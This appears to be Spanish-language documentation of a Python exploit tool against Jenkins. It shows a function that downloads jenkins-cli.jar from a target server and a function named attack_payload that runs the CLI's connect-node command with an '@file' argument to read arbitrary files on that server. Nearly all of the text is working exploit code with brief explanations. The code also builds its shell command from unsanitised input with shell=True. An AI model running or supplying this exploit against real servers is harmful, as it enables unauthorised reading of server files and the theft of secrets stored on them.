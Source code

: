 ```python
def descargar_jar(ip, puerto):
    """
    Descarga el archivo jenkins-cli.jar desde el servidor Jenkins especificado.

    Args:
        ip (str): Dirección IP del servidor Jenkins.
        puerto (str): Puerto del servidor Jenkins.

    Returns:
        bool: True si la descarga fue exitosa, False en caso contrario.
    """
    url = f"http://{ip}:{puerto}/jnlpJars/jenkins-cli.jar"
    try:
        response = requests.get(url)
        if response.status_code == 200:
            with open('jenkins-cli.jar', 'wb') as archivo_jar:
                archivo_jar.write(response.content)
            return True
        else:
            print(f"\n[-] No se pudo descargar el archivo. Código de estado: {response.status_code}")
            return False
    except requests.RequestException as errorhttp:
        print(f"\n[-] Error al realizar la solicitud: {errorhttp}")
        return False
```

Esta función descarga el archivo `jenkins-cli.jar` desde el servidor Jenkins especificado por la dirección IP y el puerto. Si la descarga es exitosa, guarda el archivo en el sistema y devuelve `True`; de lo contrario, devuelve `False`.

## Función `attack_payload`

```python
def attack_payload(ip, puerto, ruta):
    """
    Ejecuta el payload para conectar un nodo Jenkins.

    Args:
        ip (str): Dirección IP del servidor Jenkins.
        puerto (str): Puerto del servidor Jenkins.
        ruta (str): Ruta para leer el archivo.
    """
    archivo_jar = "jenkins-cli.jar"
    payload = f"java -jar {archivo_jar} -s http://{ip}:{puerto}/ -http connect-node @{ruta}"
    try:
        subprocess.run(payload, shell=True, check=True)
        os.remove(archivo_jar)
    except subprocess.CalledProcessError as error_payload:
        print(f"\n[-] Error al intentar conectar el nodo: {error_payload}\n")
```
